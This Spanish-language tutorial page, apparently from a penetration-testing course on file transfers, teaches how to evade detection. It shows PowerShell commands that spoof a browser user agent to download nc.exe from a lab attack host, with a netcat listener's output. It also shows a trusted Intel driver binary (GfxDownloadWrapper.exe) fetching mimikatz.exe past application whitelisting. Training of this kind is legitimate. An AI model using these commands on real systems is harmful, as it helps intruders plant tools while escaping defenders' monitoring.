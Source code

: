 # Evading Detection

## Cambio de Agente de Usuario

Si los administradores o defensores diligentes han incluido en la lista negra alguno de estos **agentes de usuario**, `Invoke-WebRequest` contiene un parámetro **UserAgent**, que permite cambiar el agente de usuario predeterminado para emular navegadores como **Internet Explorer**, **Firefox**, **Chrome**, **Opera** o **Safari**. Por ejemplo, si internamente se utiliza **Chrome**, establecer este agente de usuario puede hacer que la solicitud parezca legítima.

### Listado de Agentes de Usuario

```bash
PS C:\htb> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

**InternetExplorer**\
User Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

**FireFox**\
User Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

**Chrome**\
User Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0 Safari/534.6

**Opera**\
User Agent: Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

**Safari**\
User Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0 Safari/533.16

### Invocar `Invoke-WebRequest` para descargar **nc.exe** usando un Agente de Usuario de **Chrome**

```bash
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

**Resultado del servidor:**

```bash
sherlock28@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

## LOLBAS / GTFOBins

El **whitelisting de aplicaciones** puede impedirte usar **PowerShell** o **Netcat**, y el registro de la línea de comandos puede alertar a los defensores sobre tu presencia. En este caso, una opción puede ser utilizar un **LOLBIN** (Living Off The Land Binary), también conocido como "binarios de confianza mal ubicada". Un ejemplo de **LOLBIN** es el **Intel Graphics Driver for Windows 10** (**GfxDownloadWrapper.exe**), instalado en algunos sistemas y que contiene una funcionalidad para descargar archivos de configuración periódicamente. Esta funcionalidad de descarga puede invocarse de la siguiente manera:

### Transferencia de archivo con **GfxDownloadWrapper.exe**

```bash
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Este binario puede estar permitido para ejecutarse por el **whitelisting de aplicaciones** y excluirse de las alertas. Otros binarios más comunes también están disponibles, y vale la pena revisar el proyecto **LOLBAS** para encontrar un binario adecuado de "descarga de archivos" que exista en tu entorno. El equivalente en **Linux** es el proyecto **GTFOBins**, que también vale la pena revisar. Al momento de escribir esto, el proyecto **GTFOBins** proporciona información útil sobre casi 40 binarios comúnmente instalados que pueden utilizarse para realizar transferencias de archivos.

## Reflexiones Finales

Como hemos visto en este módulo, existen muchas formas de transferir archivos hacia y desde nuestro host de ataque entre sistemas **Windows** y **Linux**. Vale la pena practicar tantas de estas técnicas como sea posible a lo largo de los módulos del camino de **Penetration Tester**.

¿Tienes una **web shell** en un objetivo? Prueba descargando un archivo al objetivo para realizar una enumeración adicional usando **Certutil**. ¿Necesitas descargar un archivo del objetivo? Prueba un servidor **SMB** de **Impacket** o un servidor web de **Python** con capacidades de carga. Refiérete a este módulo periódicamente y esfuérzate en usar todos los métodos enseñados de alguna manera. Además, tómate un tiempo cuando estés trabajando en un objetivo o laboratorio para buscar un **LOLBin** o **GTFOBin** que nunca hayas utilizado para lograr tus objetivos de transferencia de archivos.
